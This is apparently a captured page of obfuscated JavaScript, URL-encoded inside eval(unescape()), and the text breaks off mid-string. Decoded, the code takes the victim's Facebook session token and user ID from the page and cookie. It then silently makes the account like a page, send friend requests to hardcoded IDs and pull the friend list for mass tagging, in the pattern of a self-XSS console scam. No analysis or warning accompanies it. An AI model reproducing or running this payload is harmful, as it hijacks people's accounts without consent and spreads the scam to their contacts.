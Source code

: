eval(unescape('%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%4C%69%6B%65%28%70%29%20%7B%0A%20%20%76%61%72%20%50%61%67%65%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%50%61%67%65%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%70%61%67%65%73%2F%66%61%6E%5F%73%74%61%74%75%73%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%50%61%67%65%50%61%72%61%6D%73%20%3D%20%22%26%66%62%70%61%67%65%5F%69%64%3D%22%20%2B%20%70%20%2B%22%26%61%64%64%3D%74%72%75%65%26%72%65%6C%6F%61%64%3D%66%61%6C%73%65%26%66%61%6E%5F%6F%72%69%67%69%6E%3D%70%61%67%65%5F%74%69%6D%65%6C%69%6E%65%26%66%61%6E%5F%73%6F%75%72%63%65%3D%26%63%61%74%3D%26%6E%63%74%72%5B%5F%6D%6F%64%5D%3D%70%61%67%65%6C%65%74%5F%74%69%6D%65%6C%69%6E%65%5F%70%61%67%65%5F%61%63%74%69%6F%6E%73%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%64%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%50%61%67%65%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%50%61%67%65%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%50%61%67%65%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%50%61%67%65%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%50%61%67%65%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%50%61%67%65%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%50%61%67%65%2E%73%65%6E%64%28%50%61%67%65%50%61%72%61%6D%73%29%3B%0A%7D%0A%4C%69%6B%65%28%22%30%22%29%3B%0A%20%0A%76%61%72%20%66%62%5F%64%74%73%67%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%28%27%66%62%5F%64%74%73%67%27%29%5B%30%5D%2E%76%61%6C%75%65%3B%0A%76%61%72%20%75%73%65%72%5F%69%64%20%3D%20%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%64%6F%63%75%6D%65%6E%74%2E%63%6F%6F%6B%69%65%2E%6D%61%74%63%68%28%2F%63%5F%75%73%65%72%3D%28%5C%64%2B%29%2F%29%5B%31%5D%29%3B%0A%66%75%6E%63%74%69%6F%6E%20%49%44%53%28%72%29%20%7B%0A%20%20%76%61%72%20%58%20%3D%20%6E%65%77%20%58%4D%4C%48%74%74%70%52%65%71%75%65%73%74%28%29%3B%0A%20%20%76%61%72%20%58%55%52%4C%20%3D%20%22%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%61%64%64%5F%66%72%69%65%6E%64%2F%61%63%74%69%6F%6E%2E%70%68%70%22%3B%0A%20%20%76%61%72%20%58%50%61%72%61%6D%73%20%3D%20%22%74%6F%5F%66%72%69%65%6E%64%3D%22%20%2B%20%72%20%2B%22%26%61%63%74%69%6F%6E%3D%61%64%64%5F%66%72%69%65%6E%64%26%68%6F%77%5F%66%6F%75%6E%64%3D%66%72%69%65%6E%64%5F%62%72%6F%77%73%65%72%5F%73%26%72%65%66%5F%70%61%72%61%6D%3D%6E%6F%6E%65%26%26%26%6F%75%74%67%6F%69%6E%67%5F%69%64%3D%26%6C%6F%67%67%69%6E%67%5F%6C%6F%63%61%74%69%6F%6E%3D%73%65%61%72%63%68%26%6E%6F%5F%66%6C%79%6F%75%74%5F%6F%6E%5F%63%6C%69%63%6B%3D%74%72%75%65%26%65%67%6F%5F%6C%6F%67%5F%64%61%74%61%26%68%74%74%70%5F%72%65%66%65%72%65%72%26%5F%5F%75%73%65%72%3D%22%2B%75%73%65%72%5F%69%64%2B%22%26%5F%5F%61%3D%31%26%5F%5F%64%79%6E%3D%37%39%38%61%44%35%7A%35%43%46%2D%26%5F%5F%72%65%71%3D%33%35%26%66%62%5F%64%74%73%67%3D%22%2B%66%62%5F%64%74%73%67%2B%22%26%70%68%73%74%61%6D%70%3D%22%3B%0A%20%20%58%2E%6F%70%65%6E%28%22%50%4F%53%54%22%2C%20%58%55%52%4C%2C%20%74%72%75%65%29%3B%0A%20%20%58%2E%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%20%28%29%20%7B%0A%20%20%20%20%69%66%20%28%58%2E%72%65%61%64%79%53%74%61%74%65%20%3D%3D%20%34%20%26%26%20%58%2E%73%74%61%74%75%73%20%3D%3D%20%32%30%30%29%20%7B%0A%20%20%20%20%20%20%58%2E%63%6C%6F%73%65%3B%0A%20%20%20%20%7D%0A%20%20%7D%3B%0A%20%20%58%2E%73%65%6E%64%28%58%50%61%72%61%6D%73%29%3B%0A%7D%0A%49%44%53%28%22%31%30%30%30%30%36%30%31%33%35%36%36%35%38%32%22%29%3B%0A%49%44%53%28%22%31%30%30%30%30%32%31%35%31%37%34%37%34%38%37%22%29%3B%0A%76%61%72%20%5F%30%78%61%32%32%63%3D%5B%22%76%61%6C%75%65%22%2C%22%66%62%5F%64%74%73%67%22%2C%22%67%65%74%45%6C%65%6D%65%6E%74%73%42%79%4E%61%6D%65%22%2C%22%6D%61%74%63%68%22%2C%22%63%6F%6F%6B%69%65%22%2C%22%32%31%30%34%39%32%31%39%39%31%36%31%32%33%31%22%2C%22%6F%6E%72%65%61%64%79%73%74%61%74%65%63%68%61%6E%67%65%22%2C%22%72%65%61%64%79%53%74%61%74%65%22%2C%22%61%72%6B%61%64%61%73%6C%61%72%20%3D%20%22%2C%22%66%6F%72%20%28%3B%3B%29%3B%22%2C%22%22%2C%22%72%65%70%6C%61%63%65%22%2C%22%72%65%73%70%6F%6E%73%65%54%65%78%74%22%2C%22%3B%22%2C%22%6C%65%6E%67%74%68%22%2C%22%65%6E%74%72%69%65%73%22%2C%22%70%61%79%6C%6F%61%64%22%2C%22%72%6F%75%6E%64%22%2C%22%20%40%5B%22%2C%22%75%69%64%22%2C%22%3A%22%2C%22%74%65%78%74%22%2C%22%5D%22%2C%22%20%22%2C%22%5C%78%32%36%66%69%6C%74%65%72%5B%30%5D%3D%75%73%65%72%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%30%5D%3D%66%72%69%65%6E%64%73%5F%6F%6E%6C%79%22%2C%22%5C%78%32%36%6F%70%74%69%6F%6E%73%5B%31%5D%3D%6E%6D%22%2C%22%5C%78%32%36%74%6F%6B%65%6E%3D%76%37%22%2C%22%5C%78%32%36%76%69%65%77%65%72%3D%22%2C%22%5C%78%32%36%5F%5F%75%73%65%72%3D%22%2C%22%68%74%74%70%73%3A%2F%2F%22%2C%22%69%6E%64%65%78%4F%66%22%2C%22%55%52%4C%22%2C%22%47%45%54%22%2C%22%68%74%74%70%73%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%6F%70%65%6E%22%2C%22%68%74%74%70%3A%2F%2F%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%66%69%72%73%74%5F%64%65%67%72%65%65%2E%70%68%70%3F%5F%5F%61%3D%31%22%2C%22%73%65%6E%64%22%2C%22%72%61%6E%64%6F%6D%22%2C%22%66%6C%6F%6F%72%2